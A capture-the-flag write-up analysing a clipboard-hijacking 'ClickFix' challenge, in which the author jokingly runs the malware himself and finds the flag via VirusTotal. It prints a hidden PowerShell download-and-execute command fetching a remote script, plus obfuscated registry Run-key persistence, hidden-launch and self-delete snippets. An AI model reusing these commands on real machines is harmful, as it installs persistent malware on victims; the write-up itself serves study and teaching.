 # Challenge Description

> Rumors whisper of a shadow moving beneath the Silver Moon.
Investigate the strange occurrences and reveal the demon’s hidden technique before it’s too late
>
> WARNING: Do not run the malware file on your PC.
https://powershell.wwctf.com/ 

# Overview

Let's start by looking at what the site does. We can directly see that when we click on the file path as requested, it modifies our clipboard by discreetly adding a PowerShell script.

```js
powershell -ep bypass -w hidden IEX(New-ObjEct System.Net.Webclient).Downloadstring('https://powershell.wwctf.com/update.ps1')                                                                    
```

# Who could be stupid enough to launch it by accident?

**I launched it**. Few seconds after the challenge was published. And it took a few seconds before I realized what I had just done... The PowerShell script was huge as fuck *(19Mo)*, it even crashed my VSCode instantly at the first opening...

<div align="center">
	<p><b>me during the challenge:</b></p>
  <img src="https://imgur.com/4ccuSDG.png" width="300">
</div>

This PowerShell Script will create an ``update.exe`` in ``$env:USERPROFILE\Documents\J1Csum3Dcj``, it will add persistence by launching it at user login. It will then launch the executable and then delete it from the folder. What could go wrong with running this on my computer without checking?

### Persistence
```ps
Set-ItemProperty -Path ((("{8}{2}{5}{1}{0}{6}{3}{7}{4}"-f'ows{0}C','d','oftwar','rr','Version{0}Run','e{0}Microsoft{0}Win','u','ent','HKCU:{0}S'))  -F[char]92) -Name ("{2}{0}{1}"-f 'Ao','prv','l') -Value "$env:USERPROFILE\Documents\J1Csum3Dcj\update.exe"
```

### Launch the malware
```ps
$ws=New-Object -ComObject WScript.Shell;$ws.Run($EHPoSQvgWxy,0,$false)
```

### Delete the malware
```ps
Remove-Item $MyInvocation.MyCommand.Path -Force
```

# VirusTotal

Just to be extra sure about what I had just done, I decided to remove the part that deletes ``update.exe`` and upload the file to VirusTotal. You know… just to be sure.

<div align="center">
  <img src="https://imgur.com/6QsRV0c.png">
</div>

In French, we'd say I was *["chokbar"](https://dictionnaire.orthodidacte.com/article/definition-chokbar-de-bz)*. So I basically ran, on my own machine, a program that's flagged as malicious by more than 50% of [antivirus engines](https://www.virustotal.com/gui/file/88d8aa69350b8516857c2fee3de800dc7e8afefd5660f27d3fadde51c349fdac/behavior)?

![https://imgur.com/EyETDJ9.png](https://imgur.com/EyETDJ9.png)

# Analysis

In the VirusTotal report, you can see the program communicate to two local IPs: ``192.168.100.157`` on port ``8080``, and ``192.168.75.130`` on port ``443``. But I mean... why bother analyzing the traffic in a safe environment when the malware’s already chilling on my machine, right?

So yeah, I just kept running the damn thing to see what else it would do. Unfortunately, I was not able to capture the flag due to encrypted traffic. Then Windows Defender suddenly woke up and started blocking the program, so I put the program in a .7z and uploaded it to VirusTotal again. The program was still flagged as malicious. But this time, we got some new info on what it was doing.

# Finding the flag

In the **Memory Pattern Urls** section, we can see a lot of URLs that the program tries to access. In the list, we can see a URL that looks interesting: ``https://192.168.75.130?flag=d3dme2YxbDNmMXhfdDBfc2wxdjNyX2IzNGMwbn0=``.

**Wait a sec. That looks like a flag. Let’s decode it with base64.**
```bash
┌─[raphckrman@raphckrman]─[~]
└──╼ $echo "d3dme2YxbDNmMXhfdDBfc2wxdjNyX2IzNGMwbn0=" | base64 --decode
wwf{f1l3f1x_t0_sl1v3r_b34c0n}
```

Boom. Got it. I don't think this is the intended way to solve the challenge, but I mean... it works, right, a flag is a flag ?
<div align="center">
  <img src="https://imgur.com/UxYviGT.png" width="400">
</div>

This is also the first blood of this challenge 🔥
![https://imgur.com/JqEcFJW.png](https://imgur.com/JqEcFJW.png)

# Is this the intended way to solve the challenge?

No, not at all. Besides, after I solved the challenge, the creator of the challenge, @serioton, reached out to me to discuss my approach. We had a fun conversation about the challenge and its intended solution.

![https://imgur.com/r8IeKnR.png](https://imgur.com/r8IeKnR.png)

I knew it was weird I got the flag so easy, like 30 minutes after the challenge went live. The creator’s totally confused about how VirusTotal spotted the flag with that encryption layer in the way…

![https://imgur.com/O1zRvh3.png](https://imgur.com/O1zRvh3.png)
<div align="center">
  <img src="https://imgur.com/O4CKYvZ.png" width="400">
</div>
